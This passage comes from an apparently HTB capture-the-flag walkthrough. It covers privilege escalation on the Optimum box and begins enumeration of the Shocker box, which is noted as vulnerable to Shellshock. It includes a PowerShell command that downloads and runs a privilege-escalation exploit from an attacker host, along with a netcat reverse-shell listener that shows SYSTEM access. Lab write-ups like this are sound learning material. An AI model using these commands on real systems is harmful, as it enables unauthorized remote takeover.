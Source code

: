
```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadString('http://<kali-ip>:8000/Invoke-MS16032.ps1')
		__ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
										
					[by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

```

```
$ rlwrap nc -lvnp 8011
listening on [any] 8011 ...
connect to [<kali-ip>] from (UNKNOWN) [<target-ip>] 49248
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\system
```


## Shocker
Shocker, another venerable HTB box, features the Shellshock Bash vulnerability, which is paired with a relatively simple `sudo`-based prvilege escalation vector.

### Enumeration 
As usual, we begin with nmap scans to identify our attack surface.

#### nmap
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-date: Sat, 10 Dec 2022 01:43:13 GMT; -2s from local time.

2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

As the web root did not turn up anything actionable via manual browsing, we turn to Feroxbuster for content discovery. 


### feroxbuster

```
403      GET       11l       32w      294c http://<target-ip>/cgi-bin/
403      GET       11l       32w      299c http://<target-ip>/cgi-bin/.html
```

In consideration of the box's name, I began with the suspicion that we would encounter the famous Shellshock vulnerability. More information on this Bash vulnerability, which affects versions 1.0.3–4.3, can be found here: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271 and here: https://en.wikipedia.org/wiki/Shellshock_(software_bug).
